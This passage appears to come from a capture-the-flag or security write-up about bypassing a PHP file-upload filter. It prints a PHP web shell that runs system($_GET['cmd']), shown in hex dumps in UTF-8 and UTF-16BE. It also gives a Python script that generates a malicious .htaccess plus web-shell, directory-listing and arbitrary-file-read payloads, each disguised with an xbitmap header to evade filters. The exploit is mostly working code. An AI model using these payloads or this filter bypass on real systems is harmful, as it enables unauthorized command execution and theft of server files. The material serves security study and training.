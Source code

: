 Nice ! I uploaded my `.htaccess` to run the php contain in my `.php16` files. But how can I upload php to bypass the filter on the code. The answer is simple : encode your payload. 

Explanation. PHP support several form of encoding. Currently, you are writing in utf-8, but php also support utf-16 encoding. There is the same payload but encoded in utf-8 and after in utf-16

In utf-8, a character is encoded on 1 byte.

```
00000000: 3c3f 7068 7020 7379 7374 656d 2824 5f47  <?php system($_G
00000010: 4554 5b27 636d 6427 5d29 3b20 6469 6528  ET['cmd']); die(
00000020: 293b 203f 3e0a                           ); ?>.
```

But in utf-16, the character is encoded on 2 bytes.

```
00000000: 003c 003f 0070 0068 0070 0020 0073 0079  .<.?.p.h.p. .s.y
00000010: 0073 0074 0065 006d 0028 0024 005f 0047  .s.t.e.m.(.$._.G
00000020: 0045 0054 005b 0027 0063 006d 0064 0027  .E.T.[.'.c.m.d.'
00000030: 005d 0029 003b 0020 0064 0069 0065 0028  .].).;. .d.i.e.(
00000040: 0029 003b 0020 003f 003e 0a              .).;. .?.>.
```
I choose here utf-16 Big Endian encoding (to avoid some php bug). So we will have padding before our char : `003c` for the char `<` in utf-16 instead of `3c` in utf-8. With this trick, the filter will not be triggered !

Here is a little python script to automate payload creation. You have to put the xbitmap signature to bypass the others filters.

```python
#!/usr/bin/python3
# Description : create and bypass file upload filter with .htaccess
# Author : Thibaud Robin

# Will prove the file is a legit xbitmap file and the size is 1337x1337
SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n"

def generate_php_file(filename, script):
	phpfile = open(filename, 'wb') 

	phpfile.write(script.encode('utf-16be'))
	phpfile.write(SIZE_HEADER)

	phpfile.close()

def generate_htacess():
	htaccess = open('..htaccess', 'wb')

	htaccess.write(SIZE_HEADER)
	htaccess.write(b'AddType application/x-httpd-php .php16\n')
	htaccess.write(b'php_value zend.multibyte 1\n')
	htaccess.write(b'php_value zend.detect_unicode 1\n')
	htaccess.write(b'php_value display_errors 1\n')

	htaccess.close()
		
generate_htacess()

generate_php_file("webshell.php16", "<?php system($_GET['cmd']); die(); ?>")
generate_php_file("scandir.php16", "<?php echo implode('\n', scandir($_GET['dir'])); die(); ?>")
generate_php_file("getfile.php16", "<?php echo file_get_contents($_GET['file']); die(); ?>")
generate_php_file("info.php16", "<?php phpinfo(); die(); ?>")
```
